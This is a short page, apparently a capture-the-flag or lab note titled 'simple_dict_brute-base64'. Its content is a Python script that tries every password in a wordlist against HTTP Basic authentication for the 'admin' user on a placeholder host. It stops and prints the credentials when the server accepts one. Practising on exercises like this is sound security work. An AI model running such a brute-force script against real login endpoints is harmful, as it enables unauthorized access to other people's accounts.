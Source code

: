 # simple_dict_brute-base64

![image-20251028183539749](assets/image-20251028183539749.png)

````python
import time
import requests
import base64

url = 'http://IP:PORT/'

password = []

with open("passwords.txt", "r") as f:  
        while True:
            data = f.readline() 
            if data:
                    password.append(data)
            else:
              break
            

for p in password:
        strs = 'admin:'+ p[:-1]
        header={
                'Authorization':'Basic {}'.format(base64.b64encode(strs.encode('utf-8')).decode('utf-8'))
        }
        rep =requests.get(url,headers=header)
        time.sleep(0.2)
        if rep.status_code ==200:
                print(rep.text)
                print(strs)
                break
````

![image-20251028183626498](assets/image-20251028183626498.png)